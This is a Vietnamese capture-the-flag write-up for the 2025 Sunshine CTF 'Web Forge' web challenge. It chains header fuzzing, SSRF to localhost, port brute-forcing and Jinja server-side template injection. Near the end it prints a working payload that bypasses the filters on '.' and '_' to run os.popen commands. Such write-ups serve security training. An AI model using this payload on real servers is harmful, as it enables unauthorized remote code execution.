








# 2025 Sunshine CTF - Web Forge

Mô tả của challenge:
```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
```


Truy cập vào `/admin`:
```
403 Forbidden: missing or incorrect SSRF access header
```

Tôi thử kiểm tra xem có tệp `/robots.txt` không. Kết quả trả về:
```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Nội dung này cho ta thấy cần một header được set là `true`

Truy cập trực tiếp vào `/admin`: **Forbidden — permission required**. Giờ chúng ta hãy **Fuzzing the SSRF access header**. 
Danh sách header lấy [tại đây](https://github.com/danielmiessler/SecLists/blob/f2d366a237436a904df19d19ca5545b9942bcabc/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers):



Dẹt sơ, ta đã tìm được header: `Allow: true`. Sau đó, chúng ta có thể truy cập `/fetch`. Nó có biểu mẫu cho ssrf:



Nhập thử url: `http://127.0.0.1/admin`



Trang web ngay lập tức phàn nàn rằng tôi đã quên tham số `?template=parameter`. Tiếp tục fetch url với tham số `tempalte`:



Vậy là trang web báo tôi đã sai port. Vì vậy tôi sẽ burteforce các port phổ biến: `http://127.0.0.1:<port>/admin?template=test` và thu được kết quả hợp lệ là port 8000.



Lúc này tôi nghĩ ngay đến lỗi Template Rendering SSTI và thử một payload đơn giản `{{7*7}}`. Kết quả trả ngay về 49 -> SSTI:



Hãy thử tải trọng tiêm Jinja thông thường từ [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), cho đến khi chúng ta thấy server filter `.` hoặc `_`. Tuy nhiên ta có thể thực thi payload sau để bypass `.`, `_`:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


Tiếp theo ta ls để tìm xem flag nằm ở đâu và đọc nó:



Thành công đọc được flag.